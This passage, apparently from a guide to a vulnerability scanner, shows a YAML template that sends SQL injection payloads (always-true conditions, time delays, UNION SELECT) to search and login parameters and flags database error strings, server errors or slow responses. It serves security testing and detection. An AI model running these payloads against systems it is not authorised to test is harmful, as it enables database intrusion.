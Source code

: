 ### 4.3 Advanced Template Features

```yaml
id: advanced-sqli-detection

info:
  name: Advanced SQL Injection Detection
  author: security-researcher
  severity: high
  description: Comprehensive SQL injection detection with multiple payloads
  tags: sqli,injection,database

variables:
  sqli_payloads:
    - "'"
    - "1' OR '1'='1"
    - "'; WAITFOR DELAY '00:00:05'--"
    - "1' UNION SELECT NULL,NULL--"

http:
  - method: GET
    path:
      - "{{BaseURL}}/search?q={{sqli_payloads}}"
      - "{{BaseURL}}/login?user={{sqli_payloads}}&pass=test"

    attack: pitchfork
    threads: 5
    stop-at-first-match: true

    matchers-condition: or
    matchers:
      - type: word
        words:
          - "SQL syntax"
          - "mysql_fetch"
          - "ORA-00933"
          - "Microsoft JET Database"
        condition: or

      - type: status
        status:
          - 500

      - type: dsl
        dsl:
          - "duration >= 5"

    extractors:
      - type: regex
        regex:
          - "(?i)(error|exception|stack trace)"
        group: 1
```
